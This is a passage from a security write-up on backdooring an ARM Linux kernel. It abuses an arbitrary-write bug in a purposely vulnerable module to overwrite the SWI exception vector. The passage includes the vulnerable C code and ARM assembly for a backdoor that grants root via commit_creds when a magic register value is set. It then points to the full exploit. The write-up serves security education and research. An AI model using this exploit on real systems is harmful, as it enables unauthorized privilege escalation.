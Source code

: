```c
    
    copy_from_user(&where, buff, sizeof(where));
    memcpy(where, what, sizeof(void *));

end:
    return siz;
}
```
Basically, with this cool and realistic vulnerability, you give the module an address followed by data to write at that address.
Now, our plan is going to be to backdoor the kernel by overwriting the SWI exception vector with code that jumps to our backdoor code. This code will check for a magic value in a register (say r7 which holds the syscall number) and if it matches, it will elevate the privileges of the calling process. Where do we store this backdoor code ? Considering the fact that we have an arbitrary write to kernel memory, we can either store it in userspace or somewhere in kernel space. The good thing about the latter choice is that if we choose an appropriate location in kernel space, our code will exist as long as the machine is running, whereas with the former choice, as soon as our user space application exits, the code is lost and if the entry in the EVT isn't set back to its original value, it will most likely be pointing to invalid/unmmapped memory which will crash the system. So we need a location in kernel space that is executable and writeable. Where could this be ? Let's take a closer look at the EVT:  
![EVT Disassembly](/images/corrupting_arm_evt/evt_8i.png)  
As expected we see a bunch of control transfer instructions but one thing we notice about them is that "closest" referenced address is *0xffff0200*. Let's take a look what is between the end of the EVT and 0xffff0200:  
![EVT Inspection](/images/corrupting_arm_evt/evt_400wx.png)  
It looks like nothing is there so we have around 480 bytes to store our backdoor which is more than enough.

### The Exploit
Recapitulating our exploit:  
    1. Store our backdoor at *0xffff0020*.  
    2. Overwrite the SWI exception vector with a branch to *0xffff0020*.  
    3. When a system call occurs, our backdoor will check if r7 == 0xb0000000 and if true, elevate the privileges of the calling process otherwise jump to the normal system call handler.  
Here is the backdoor's code:
```nasm
@ check if magic
    cmp     r7, #0xb0000000
    bne     exit

elevate:
    stmfd   sp!,{r0-r12}

    mov     r0, #0
    ldr     r3, =0xc0049a00     @ prepare_kernel_cred
    blx     r3
    ldr     r4, =0xc0049438     @ commit_creds
    blx     r4

    ldmfd   sp!, {r0-r12, pc}^  @ return to userland

@ go to syscall handler
exit:
    ldr     pc, [pc, #980]      @ go to normal swi handler

```
You can find the complete code for the vulnerable module and the exploit [here](https://github.com/acama/arm-evt/tree/master/local_example). Run the exploit:  
![Local PoC](/images/corrupting_arm_evt/local_poc.png)  


[^1]: [Vector Rewrite Attack](http:/cansecwest.com/slides07/Vector-Rewrite-Attack.pdf)  
[2]: [Recent ARM Security Improvements](https:/forums.grsecurity.net/viewtopic.php?f=7&t=3292)  
[3]: [Entering an Exception](http:/infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.ddi0311d/I30195.html)  
[4]: [SWI handlers](http:/infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.dui0040d/Cacdfeci.html)  
[5]: [ARM Exceptions](http:/osnet.cs.nchu.edu.tw/powpoint/Embedded94_1/Chapter%207%20ARM%20Exceptions.pdf)  
[6]: [Exception and Interrupt Handling in ARM](http:/www.iti.uni-stuttgart.de/~radetzki/Seminar06/08_report.pdf)  